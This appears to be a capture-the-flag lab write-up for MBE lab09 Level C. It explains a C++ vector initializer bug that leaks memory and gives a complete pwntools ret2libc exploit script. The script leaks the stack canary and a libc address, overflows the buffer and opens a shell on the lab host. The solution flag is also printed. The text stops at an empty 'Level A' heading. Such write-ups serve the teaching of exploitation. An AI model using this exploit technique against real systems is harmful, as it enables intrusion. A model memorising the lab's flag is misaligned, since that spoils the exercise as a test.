

## lab09

**Level C**
The initializing list is wrongly coded so that `alloc_len` is set to some unpredictable number (but is absolutedly greater than 256 or 257).

```cpp
DSVector() : len(1), alloc_len(len+256) {}
```

For this reason, leaking information with "read item" choice is very easy (including libc addresses, canary, etc.):



In the picture, `0xbffff2e8` is corresponding to `&vector_data[0]`, similarly, canary is at index 257.

Then we can easily construct a ret2libc attack:

```python
from pwn import *

#env = {'LD_PRELOAD':'./libstdc++.so.6'}
#p = process('./lab9C', env=env)
p = remote('mbe', 9943)

def leak_index(proc, i):
    proc.recvuntil('choice: ')
    proc.sendline('2')
    proc.recvuntil('index: ')
    proc.sendline(str(i))
    proc.recvregex(r'DSVector\[\d+\] = ')
    return u32(p32(int(proc.recvline()), sign='signed'))

def append(proc, uint):
    sint = u32(p32(uint), sign='signed')
    proc.recvuntil('choice: ')
    proc.sendline('1')
    proc.recvuntil('number: ')
    proc.sendline(str(sint))

LEAK = 0xb7d4dffd
SYS = 0xb7d7b190
BINSH = 0xb7e9ba24
leak = leak_index(p, 0)
canary = leak_index(p, 257)
sys = leak - LEAK + SYS
binsh = leak - LEAK + BINSH

for i in range(256):
    append(p, i+1)
append(p, canary)
for i in range(3):
    append(p, 0x71)
append(p, sys)
append(p, 0xdeadbeef)
append(p, binsh)

p.recvuntil('choice: ')
p.sendline('3')
p.interactive('cirq # ')
```


The flag is `1_th0uGht_th4t_w4rn1ng_wa5_l4m3`.

---

**Level A**

